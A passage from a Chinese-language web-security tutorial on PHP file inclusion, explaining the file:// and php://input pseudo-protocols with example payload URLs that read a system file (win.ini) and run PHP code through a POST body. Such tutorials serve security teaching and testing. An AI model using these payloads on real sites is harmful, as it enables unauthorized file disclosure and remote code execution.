 ***

## <mark style="color:blue;background-color:green;">4.php伪协议</mark>

在开头我们也放了php伪协议，虽然有相同的运用之处，但是也有一些差别，我们会专门就这个漏洞再来补充他们在这个漏洞的用法。有些不怎么要用或者之前已经详细讲过的就直接跳过去了。

### <mark style="color:purple;background-color:yellow;">1)file://</mark>

访问本地文件系统。

条件：无要求

姿势：

```url
http://*********.php/?file=file://C:/Windows/win.ini
```

### <mark style="color:purple;background-color:yellow;">2）php://input</mark>

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

可以直接读取到POST上没有经过解析的原始数据。我们之前提到过，input后面可以加上post的body执行php代码。

{% hint style="warning" %}
`enctype="multipart/form-data"` 的时候 `php://input` 是无效的。
{% endhint %}

条件：

* allow\_url\_include=<mark style="color:red;">On</mark>

姿势：

#### _①执行代码_

```url
http://*******.php/?file=php://input
/*[post]
<?php phpinfo()?>*/
```
